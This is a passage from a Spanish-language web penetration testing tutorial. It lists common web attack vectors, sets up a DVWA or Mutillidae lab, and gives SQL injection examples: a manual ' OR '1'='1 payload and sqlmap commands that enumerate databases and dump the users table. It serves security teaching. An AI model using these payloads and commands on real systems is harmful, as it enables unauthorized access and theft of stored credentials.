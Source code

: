 ## 13.2. Principales Vectores de Ataque

| Vulnerabilidad                 | Descripción                                       | Impacto                               |
| ------------------------------ | ------------------------------------------------- | ------------------------------------- |
| **SQL Injection (SQLi)**       | Inyección de código SQL no filtrado.              | Robo/modificación de base de datos.   |
| **Cross-Site Scripting (XSS)** | Inyección de código JavaScript.                   | Robo de cookies, keylogging.          |
| **Command Injection**          | Ejecución de comandos del sistema.                | Control total del servidor.           |
| **File Upload Vulnerability**  | Subida de archivos maliciosos.                    | Shell web y acceso persistente.       |
| **Path Traversal**             | Acceso a archivos fuera del directorio permitido. | Lectura de configuraciones sensibles. |

---

## 13.3. Preparando el Laboratorio

* **Víctima**: DVWA (Damn Vulnerable Web App) o Mutillidae en un servidor Ubuntu.
* **Atacante**: Kali Linux con `sqlmap`, `burpsuite`, `wfuzz`, `gobuster`.

---

## 13.4. SQL Injection (SQLi)

### Ejemplo Manual

Entrada vulnerable:

```plaintext
http://192.168.56.101/product.php?id=1
```

Prueba:

```plaintext
?id=1' OR '1'='1
```

### Ejemplo Automático con sqlmap

```bash
sqlmap -u "http://192.168.56.101/product.php?id=1" --dbs
```

Obtener datos:

```bash
sqlmap -u "http://192.168.56.101/product.php?id=1" -D dvwa -T users --dump
```

---

## 13.5. Cross-Site Scripting (XSS)
